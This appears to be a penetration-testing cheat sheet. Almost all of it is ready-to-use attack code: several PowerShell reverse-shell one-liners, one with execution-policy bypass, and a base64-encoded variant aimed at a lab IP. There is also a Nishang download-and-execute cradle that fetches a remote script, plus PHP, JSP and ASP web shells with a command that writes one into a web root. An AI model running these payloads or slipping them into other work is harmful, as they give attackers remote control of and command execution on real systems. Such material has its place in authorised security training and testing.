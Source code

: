 ```bash
# Powershell: wo powercat
$client = New-Object System.Net.Sockets.TCPClient('<% tp.frontmatter["LHOST"] %>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<% tp.frontmatter["LHOST"] %>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

powershell -nop -exec bypass -c '$client = New-Object System.Net.Sockets.TCPClient("<% tp.frontmatter["LHOST"] %>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

#############################################################################################
# Powershell: Create powershell reverse shell on kali linux
$ kali@kali:~$ pwsh

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
PS> $EncodedText

$powershell -enc $EncodedText

#############################################################################################
# powershell with nishang
## download and move shell's location && change file name
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.7:5555/shell.ps1')

```

## Web Shell
```bash
# php
<?php system($_REQUEST["cmd"]); ?>

# jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

# asp
<% eval request("cmd") %>

echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php


```